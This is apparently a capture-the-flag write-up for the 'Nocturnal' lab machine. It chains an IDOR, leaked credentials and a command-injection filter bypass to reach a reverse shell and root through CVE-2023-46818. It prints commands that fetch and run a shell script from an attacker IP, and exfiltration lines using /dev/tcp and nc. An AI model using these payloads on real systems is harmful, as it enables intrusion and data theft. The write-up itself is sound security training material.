Nocturnal

Nocturnal was an easy-difficulty Linux box featuring a file upload service. Initial reconnaissance revealed SSH on port 22 and a web application on port 80.
After creating an account, I discovered an IDOR vulnerability in the file viewing functionality by manipulating the username parameter in /view.php. Username fuzzing revealed multiple users including Amanda, whose uploaded ODT document contained credentials amanda:arHkG7HAI68X8s1J.
Authenticating as Amanda provided access to an administrative backup panel vulnerable to command injection. The backup functionality passed user-controlled password input directly to proc_open without proper sanitization. Bypassing character filters using tab characters instead of spaces, I achieved remote code execution via bash\t-c\t"curl%09http://10.10.16.64:8000/shell.sh" and obtained a reverse shell as the web user.
Database enumeration revealed password hashes for user Tobias, which cracked to tobias:slowmotionapocalypse, providing SSH access and the user flag.
Local enumeration identified ISPConfig running on localhost:8080. Research revealed CVE-2023-46818, a privilege escalation vulnerability affecting the control panel. Using the GitHub PoC with Tobias' credentials, I successfully exploited the CVE to gain root access, completing full system compromise.
User flag

Nmap scan reveals 2 ports. A website on 80, and SSH on 22.
Examining the website

I created an account with credentials test1:test.

Since this is a website built with PHP, I tried uploading a PHP webshell, but it was denied with an error message.
Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.
I uploaded a .pdf file, and noticed an unusual thing in the link to my file.

The download link contains my username and the filename. I tried swapping my username to admin to test whether I could look through other user's files.

Fuzzing for valid users
While the admin did not have anything uploaded, it looks like I can see files uploaded by other users. I will use ffuf to fuzz the username parameter in order to find existing users.
ffuf -w <wordlist> -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' -H 'Cookie: <cookie>' -fw 1170

There are 6 users, including the admin. I'll check each of them, starting with Amanda.

Amanda has uploaded an .odt file. I'll download it and I will read through its contents.

amanda | arHkG7HAI68X8s1J
Creating a site backup
I tested these credentials on the website.

There is a link leading to the administrator panel at the top. I'll check it out right away.

I can create and download a backup of the site. It needs a password, so I'll use test1

Command execution via the password field
I reviewed the .php files, and found a vulnerability in admin.php.
<SNIP>
<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
$password = cleanEntry($_POST['password']);
$backupFile = "backups/backup_" . date('Y-m-d') . ".zip";
if ($password === false) {
echo "<div class='error-message'>Error: Try another password.</div>";
} else {
$logFile = '/tmp/backup_' . uniqid() . '.log';
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " . > " . $logFile . " 2>&1 &";
$descriptor_spec = [
0 => ["pipe", "r"], // stdin
1 => ["file", $logFile, "w"], // stdout
2 => ["file", $logFile, "w"], // stderr
];
$process = proc_open($command, $descriptor_spec, $pipes);
if (is_resource($process)) {
proc_close($process);
}
<SNIP>
It takes the data from a user-controlled password parameter and passes it directly to proc_open.
<SNIP>
function cleanEntry($entry) {
$blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
foreach ($blacklist_chars as $char) {
if (strpos($entry, $char) !== false) {
return false; // Malicious input detected
}
}
return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
<SNIP>
While some characters are blacklisted, it should not be too hard to get code execution. I captured the create backup request in Burp and sent it to repeater.
To confirm command execution, I'll use bash -c "whoami" in the password field.
I swapped the two spaces with "+" signs, which are interpreted as spaces in urlencode. I then urlencoded the whole string

And it succeeded. However, the same way did not work when I tried to make the server call back to my listener.
Instead, I pivoted to using tab(\t) characters, which are different characters than spaces and, as a result, should not be affected by the filter.
bash\t-c\t"curl%09http://10.10.16.64:8000/test"
The tab character in my curl command must be URL-encoded, otherwise it'll be treated as characters and will interfere with the url.

I'll repeat the working command, this time downloading a reverse shell.
bash\t-c\t"curl%09http://10.10.16.64:8000/shell.sh%09-O\tshell.sh"
After downloading, I'll execute it with a listener running on my box.
bash\t-c\t"bash%09shell.sh"

Downloading the database

I transferred the database onto my machine and took all of the password hashes inside.
cat < /dev/tcp/10.10.16.64/9002 > nocturnal_database.db - on target
nc -lnkvp 9002 > nocturnal_database.db - on host
There were 3 users. Amanda, admin, and Tobias. Tobias's hash cracked and revealed his password.
tobias | slowmotionapocalypse
I will try to SSH into the machine with these credentials.

Root flag
Initial recon
During my initial recon, I found a few ports listening locally.

I forwarded port 8080, as it's the most suspicious one here. I used port 8081 on my host to avoid conflicts with burpsuite, which is running on 8080.
ssh tobias@nocturnal.htb -L 8081:127.0.0.1:8080
However, when I tried to visit the website, I was denied.

I ran curl on my local machine to get some more info about what is running on this port.
curl --head localhost:8081

The cookie name points me towards ispconfig, which is an open source hosting control panel for Linux.
Getting a root shell with CVE-2023-46818
A quick search for related CVEs brings me to an NVD record.
https://nvd.nist.gov/vuln/detail/CVE-2023-46818
And a PoC on GitHub.
https://github.com/ajdumanhug/CVE-2023-46818
The vulnerability needs administrative access. I have 2 different passwords to check, Amanda's and Tobias'.

Rooted!